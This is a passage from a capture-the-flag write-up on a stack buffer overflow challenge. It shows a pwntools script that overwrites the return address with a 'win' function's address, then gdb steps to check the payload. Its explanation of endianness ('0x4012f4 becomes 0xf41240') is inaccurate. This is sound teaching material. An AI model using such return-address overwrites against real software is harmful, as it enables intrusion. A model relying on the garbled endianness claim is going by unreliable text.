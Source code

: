Now we start to build our payload. We find the address of the `win`-method using `pwntools`. The we build the payload by padding with `A * offset` and the we follow with the `win`-address. The address is wrapped in `p64` to make sure that the endianness is correct. `0x4012f4` becomes `0xf41240`. This script writes the payload to the `payload` file for easy testing in `gdb`.

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

# Used for testing the payload in `gdb`:
file = open("payload", "wb")
file.write(payload + b"\n")
file.close()
```


## Verifying Our Exploit Payload In `gdb`

Now we try the exploit in `gdb` to verify that everything works. First we run `disas main` to disassemble the `main`-method so that we can find an address and set a breakpoint to inspect the stack. This is because we won't get a `SIGSEGV` this time, so we have to make the program stop at the correct place.

```bash
gef➤  disas main
Dump of assembler code for function main:
# ...abbreviated
   0x0000000000401372 <+103>:   lea    rdi,[rip+0xd01]        # 0x40207a
   0x0000000000401379 <+110>:   call   0x4010d0 <puts@plt>
   0x000000000040137e <+115>:   mov    eax,0x0
   0x0000000000401383 <+120>:   leave
   0x0000000000401384 <+121>:   ret
End of assembler dump.
```

We set our breakpoint at the `ret`-instruction, which is the last instruction in `main`. This is right before our `win`-address is being popped of the stack.

The address of the `ret`-instruction is `0x0000000000401384`. We use `b *` followed by the address to set the breakpoint. Then we run the program inside `gdb` and read in the `payload` file.

```bash
gef➤  b *0x0000000000401384
Breakpoint 1 at 0x401384
gef➤  r < payload
```

